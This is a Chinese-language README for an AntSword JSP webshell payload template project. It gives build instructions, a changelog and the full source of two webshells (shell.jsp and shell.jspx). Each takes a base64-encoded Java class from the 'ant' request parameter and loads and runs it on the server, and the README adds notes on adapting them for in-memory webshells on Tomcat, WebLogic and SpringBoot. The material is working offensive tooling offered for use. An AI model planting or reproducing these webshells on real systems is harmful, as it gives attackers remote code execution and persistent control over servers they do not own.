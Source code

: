 # AntSword-JSP-Template  v1.4
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk6 + tomcat7

适用范围：jdk6及以上

## 编译

### 手动编译

```
javac -cp "D:/xxxx/lib/servlet-api.jar;D:/xxx/lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py/build.sh中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

Windows

```
python3 build.py
```

Linux/Mac os

```
./build.sh
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/jsp/template/`下即可

## Shell
shell.jsp

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

shell.jspx
```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:declaration>
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        }
    </jsp:declaration>
    <jsp:scriptlet>
        String cls = request.getParameter("ant");
        if (cls != null) {
            new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
        }
    </jsp:scriptlet>
</jsp:root>
```
其中`pageContext`可以替换为`request`，以实现对内存Webshell的兼容。

## 更新日志

### v 1.4

1. 兼容JDK6
2. 兼容weblogic内存webshell
3. 优化报错信息
4. 解决windows下中文乱码的问题（win选择GBK编码，linux选择UTF-8编码）
5. 实战中只能获取到response的情况几乎没有，所以为了减少payload体积不再支持response作为入口参数
6. 增加用于测试payload的Web项目
7. 修复 java -jar xxx.war 启动时当前目录获取失败的问题


### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
